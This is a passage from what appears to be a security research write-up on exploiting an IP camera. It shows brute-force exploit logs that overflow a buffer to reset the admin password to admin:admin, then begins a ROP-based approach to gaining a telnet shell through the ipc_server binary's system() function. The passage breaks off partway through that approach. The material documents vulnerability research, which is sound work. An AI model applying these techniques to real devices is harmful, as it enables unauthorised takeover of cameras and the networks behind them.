 Better yet, at the 140th attempt, we got something more interesting:

```
=> Camera is UP, exploiting with (130 NULL_BYTE + RESET_PWD_ADDRESS)
[*] Camera is not reachable, probably crashed and rebooting... Waiting 60 sec
=> Camera is UP, exploiting with (131 NULL_BYTE + RESET_PWD_ADDRESS)
[*] Camera is not reachable, probably crashed and rebooting... Waiting 60 sec
=> Camera is UP, exploiting with (132 NULL_BYTE + RESET_PWD_ADDRESS)
[*] Camera is not reachable, probably crashed and rebooting... Waiting 60 sec
=> Camera is UP, exploiting with (133 NULL_BYTE + RESET_PWD_ADDRESS)
[*] Camera is not reachable, probably crashed and rebooting... Waiting 60 sec
=> Camera is UP, exploiting with (134 NULL_BYTE + RESET_PWD_ADDRESS)
[*] Camera is not reachable, probably crashed and rebooting... Waiting 60 sec
=> Camera is UP, exploiting with (135 NULL_BYTE + RESET_PWD_ADDRESS)
[*] Camera is not reachable, probably crashed and rebooting... Waiting 60 sec
=> Camera is UP, exploiting with (136 NULL_BYTE + RESET_PWD_ADDRESS)
[*] Camera is not reachable, probably crashed and rebooting... Waiting 60 sec
=> Camera is UP, exploiting with (137 NULL_BYTE + RESET_PWD_ADDRESS)
[*] Camera is not reachable, probably crashed and rebooting... Waiting 60 sec
=> Camera is UP, exploiting with (138 NULL_BYTE + RESET_PWD_ADDRESS)
[*] Camera is not reachable, probably crashed and rebooting... Waiting 60 sec
=> Camera is UP, exploiting with (139 NULL_BYTE + RESET_PWD_ADDRESS)
[*] Camera is not reachable, probably crashed and rebooting... Waiting 60 sec
=> Camera is UP, exploiting with (140 NULL_BYTE + RESET_PWD_ADDRESS)
[*] Camera is not reachable, probably crashed and rebooting... Waiting 60 sec
[*] /!\ Successfull exploit, connect to http://172.20.10.10/log/ using admin:admin
```

We could successfully get the password updated from our attack!

#### Gaining a remote shell

After more research, we found some ways to gain a network shell by enabling the telnetd service.

##### First way

The NX protection was enabled, as we could check from a static analysis on the `ipc_server`  binary with `gdb` and the `peda` extension:

```
$ gdb ipc_server
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : disabled
```

Also fearing ASLR protection, we chose to build a ROP exploit, which is the more efficient way to bypass such protections and exploit overflows blindly.

In order to do that, we started to look for interesting gadgets inside the `ipc_server` binary. We found a `system ` function that could spawn commands:

![](system_addr.png)

